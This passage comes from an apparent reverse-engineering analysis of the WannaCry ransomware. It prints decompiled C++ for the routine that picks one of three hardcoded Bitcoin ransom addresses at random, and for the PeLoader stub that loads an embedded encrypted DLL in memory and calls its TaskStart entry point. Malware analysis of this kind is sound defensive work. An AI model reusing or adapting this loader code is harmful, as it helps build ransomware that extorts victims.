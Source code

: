 ```C++
int SetBitcoinAddress()
{
  int result;
  int iRandom; 
  char DstBuf[780]; 
  char *bitcoin1; 
  char *bitcoin2;
  char *bitcoin3; 

  bitcoin1 = a13am4vw2dhxygx;
  bitcoin2 = a12t9ydpgwuez9n;
  bitcoin3 = a115p7ummngoj1p;
  result = RWBuffer(DstBuf, 1);
  if ( result )
  {
    iRandom = rand();
    strcpy(&DstBuf[178], (&bitcoin1)[4 * (iRandom % 3)]);
    result = RWBuffer(DstBuf, 0);
  }
  return result;
}
```

**PeLoader**

Here Payload has also been successfully extracted, and that we said before Wannacry is a two-stage attack, the first stage there is a most important task is to encrypt the program quietly loaded up. Now to the exciting moment, through the next analysis, we can grasp the operating principle of PeLoader. As the most important Weapon for the second-stage attack, Peloader will ignore the Microsoft API to complete the dynamic loading of Pe dll.

If you do not want to turn to the top to see, then there is a code snippet:

```C++
CProgram::ctor(&Program);
if ( CProgram::Initialize(&Program, 0, 0, 0) )
{
nFileSize = 0;
lpPEFile = CProgram::GetPeFile(&Program, aT_wnry, &nFileSize);
if ( lpPEFile )
{
  pPeBuilder = WncryLoadPE(lpPEFile, nFileSize);
  if ( pPeBuilder )
  {
    fpTaskStart = WncrySeek2TaskStart(pPeBuilder, szTaskStart);
    if ( fpTaskStart )
      fpTaskStart(0, 0);
  }
}
}
CProgram::dtor_0(&Program);
```
